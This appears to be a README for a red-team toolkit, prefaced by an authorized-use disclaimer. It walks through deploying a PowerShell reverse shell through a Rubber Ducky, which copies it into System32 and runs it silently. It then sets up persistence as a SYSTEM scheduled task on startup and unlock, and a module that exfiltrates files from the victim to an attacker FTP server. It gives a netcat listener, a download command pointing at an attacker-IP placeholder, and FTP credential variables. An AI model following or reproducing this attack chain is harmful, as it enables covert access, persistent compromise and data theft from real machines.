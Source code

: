 ⚠️ Disclaimer
This project is created strictly for educational purposes, penetration testing, and red team research in authorized environments only.

Any use of this code outside of a controlled, lawful environment — such as unauthorized access, system exploitation, or malicious deployment — is strictly prohibited and may be illegal.

The author(s) of this project do not endorse or support any illegal activity and assume no responsibility for misuse or damage caused by the use of this tool.

Always obtain explicit written permission before testing any system or network that you do not own.


---

#  Project Execution Flow

This setup consists of two main modules:

1. **Reverse Shell Module** – for gaining initial access and persistence.
2. **File Transfer Module** – for uploading files from the victim system to your own server via FTP.

---

##  Reverse Shell Module

> This module establishes a reverse shell from the victim machine back to the attacker system and ensures it persists across reboots and unlocks.

###  Prerequisite

* Start a Netcat listener on your attacker machine:

```bash
nc -nvlp 1111
```

This sets up a listener on port `1111` to receive the incoming reverse shell connection.

---

### 🔹 Step-by-Step

#### **1. Deploy `L.ps1` using Rubber Ducky**

* Copy the PowerShell reverse shell script `L.ps1` to the **Rubber Ducky** (CIRCUITPY drive).
* Flash the Rubber Ducky with the provided `payload.dd` Ducky Script.
* Plug the Ducky into the target machine. It will:

  * Copy `L.ps1` to `C:\Windows\System32\`
  * Execute it silently using PowerShell
* This establishes a reverse shell connection to your Netcat listener.

---

#### **2. Establish Persistence (Optional but Recommended)**

* On the victim system (via the reverse shell), run the **single-line persistence command** found in the `persistence.ps1` file.
* This command sets up a **scheduled task** that:

  * Runs `L.ps1` on system startup and unlock.
  * Uses **NT AUTHORITY\SYSTEM** privileges.

Once done, you will have a **persistent reverse shell** as SYSTEM — even after reboots or user unlocks.

---

##  File Transfer Module

> This module allows you to transfer files from the victim system to your attacker-controlled FTP server using PowerShell.

###  Prerequisite

* Start a local HTTP server on the attacker machine in the folder where `Transfer.ps1` is located:

```bash
python3 -m http.server 8000
```

---

### 🔹 Step-by-Step

#### **1. Download `Transfer.ps1` to Victim**

From the victim machine (via reverse shell), download the `Transfer.ps1` script using:

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/Transfer.ps1" -OutFile "C:\Windows\System32\Transfer.ps1"
```

Replace `<attacker-ip>` with your actual IP address.

---

#### **2. Configure FTP Server**

* Host an FTP server on your machine using tools like `vsftpd`.
* Ensure:

  * The FTP server is running on the port defined in the script (default: `21`).
  * A directory named `uploads` exists on the FTP server.

---

#### **3. Set Variables in `Transfer.ps1`**

Before executing the script, set the following variables at the top of `Transfer.ps1`:

```powershell
$ftpserver      = "192.168.1.10"
$ftpport        = 21
$ftpusername    = "ftpuser"
$ftppassword    = "password123"
```

---

#### **4. Transfer the files**

The commad to download the file from the victim is as follows:

```powershell
get "File_Name"
```

This will upload the specified file(s) to your FTP server’s `/uploads` directory.

---